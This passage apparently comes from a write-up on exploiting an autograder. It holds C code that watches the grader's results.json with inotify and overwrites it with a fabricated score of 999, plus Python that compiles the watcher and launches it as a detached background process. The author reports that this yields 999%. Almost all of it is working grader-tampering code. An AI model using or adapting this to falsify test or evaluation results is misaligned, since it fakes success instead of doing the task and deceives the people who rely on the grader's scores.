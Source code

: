 ```c
#include <stdio.h>
#include <sys/inotify.h>

#define BUFSZ 4 * sizeof(struct inotify_event) + 16

void main() {
    int fd = inotify_init();
    int wd = inotify_add_watch(
        fd,
        "/autograder/results/results.json",
        IN_CREATE | IN_MODIFY
    );

    char events[BUFSZ];

    int length = read(fd, events, BUFSZ);
    for (int i = 0; i < length;) {
        struct inotify_event *event = (struct inotify_event *) &events[i];
        if ((event->mask & IN_CREATE) || (event->mask & IN_MODIFY)) {
            const char *output = "{\"score\": 999.0}";
            FILE *fp = fopen("/autograder/results/results.json", "w");
            fprintf(fp, output);
        }
        i += sizeof(struct inotify_event) + event->len;
    }
}
```

We then simply stick this into Python, calling subprocesses to compile and run the C watcher:

```python
c_payload = """
    PASTE_ABOVE_C_HERE
"""

with open("/autograder/source/write_inotify.c", "w") as cout:
    cout.write(c_payload)

subprocess.call(
    [
        "gcc",
        "/autograder/source/write_inotify.c",
        "-o",
        "/autograder/source/write_inotify",
    ],
    stderr=subprocess.DEVNULL,
)

subprocess.Popen(["/autograder/source/write_inotify"], start_new_session=True)
```

This, again, gives me a 999%.
